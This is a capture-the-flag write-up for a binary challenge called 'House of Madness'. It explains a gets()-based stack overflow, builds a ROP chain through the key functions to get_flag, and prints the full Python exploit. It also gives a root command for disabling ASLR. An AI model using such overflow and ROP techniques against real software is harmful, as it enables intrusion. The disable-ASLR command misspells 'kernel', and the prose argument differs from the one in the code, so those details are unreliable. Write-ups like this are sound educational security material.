 # House of Madness

## Solution

If we run this binary we see we are thrown into a type of game.
Going into room 4 and saying `Stephen` will unlock a special room.
Looking at the binary is we see the function for this we see that it uses `gets`.

This should immediately throw red flags as gets does not perform any boundary checks and can be used to corrupt control flow.
If we look further in the disassembly we can see mentions to multiple different functions `get_key1`, `get_key2`, `set_key4`, and `AAsDrwEk`.

We should probably try to call these functions as if you look into `get_flag` we need all the keys to properly get the flag.
The first function we should go into is `AAsDrwEk`.
To do this we will first need to overwrite the stack until the return pointer.
If we look at the vulnerable function we see the buffer is stored at `0x18`.
Therefore, we will need to send in `0x18` characters to overwrite the buffer.
After that we will need to send in `4` characters to overwrite the old EBP on the buffer.
Now we are at the return pointer, so here we can pack the address for `AAsDrwEk`.
After we call this function we should get the second key. So the next value to put onto the stack will be the return address from `AAsDrwEk` which we want to be `get_key2`.
After `get_key2` we want to go to `get_key1` so let's put its address on the stack!

However for this function we need a passed parameter. Passed parameters are storted starting at EBP+8. So lets put `0xFEEDCODE` there.
However we need to fill +4 as the return address. But, since we had passed parameters this time we need to clean up our mess.
So we will need to look for a ROP gadget that is `pop ebx; ret`. This will clean up the passed parameter.
We can find this gadget at `0x565567e7`. After this let's call `set_key4` and then `get_flag`.

Here is our exploit!

```python
import struct

import sys

padding = b"a" * 0x18
padding += b"bbbb"

padding += struct.pack("I", 0x565567cd) # AAsDrwEk (get_key3)
padding += struct.pack("I", 0x5655676e) # get_key2
padding += struct.pack("I", 0x565566de) # get_key1
padding += struct.pack("I", 0x565567e7) # pop ebx; ret
padding += struct.pack("I", 0xFEEDC0DE) # get_key1 arg
padding += struct.pack("I", 0x565567e9) # set_key4
padding += struct.pack("I", 0x5655686b) # get_flag

sys.stdout.buffer.write(b"2")
sys.stdout.buffer.write(b"4")
sys.stdout.buffer.write(b"3")
sys.stdout.buffer.write(b"Stephen\n")

sys.stdout.buffer.write(padding)
```

## Note

ASLR was disabled on the server for this challenge. If running locally ensure you have ASLR off too.

Run, as root, `echo 0 > /proc/sys/kernal/randomize_va_space`
